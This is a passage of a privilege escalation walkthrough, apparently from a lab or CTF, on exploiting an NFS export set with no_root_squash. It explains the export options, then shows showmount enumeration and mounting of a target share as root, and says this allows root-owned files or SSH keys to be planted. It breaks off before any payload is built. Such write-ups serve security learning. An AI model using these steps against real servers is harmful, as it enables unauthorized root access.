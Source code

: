 This vector depend on a misconfigured network shell like NSF. the file `/etc/exports`, tells the NFS server which directories are being shared and how they're being shared.
```bash
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)

```

These files are being exported to all hosts (*) over the network, with the following dangerous options:
- `rw`               -> Clients can read and write.	
- `sync`             -> Data is written to disk before the write is confirmed (safe, but slower).
- `insecure`         -> Allow connections from non-privileged ports (<1024).
- `no_root_squash`   -> It means that if a remote user connects as root, they stay root.	
- `no_subtree_check` -> Prevents subtree checking (used for performance).	

By default, NFS downgrades the root user from a remote client to nobody user when accessing files (this is called root squashing). This prevents a remote root user from writing to sensitive files on the NFS server.

But with `no_root_squash`, that restriction is disabled — the remote root stays root on the shared directory. That means:

If you can mount this **NFS share** and act as root on your system, you can create files owned by root or even upload a root-owned SSH key, giving you root shell access on the server.

First Enumerate mountable shares from our machine.
```bash
─$ showmount -e 10.10.129.69
Export list for 10.10.129.69:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```             

then mount on one of the `no_root_squash` shares to our machine and start building the executable. Write thse commands as a root user: 
```bash
─# mkdir tmp-on-attacker-machine
─# mount -o rw 10.10.129.69:/tmp /tmp/tmp-on-attacker-machine 

```
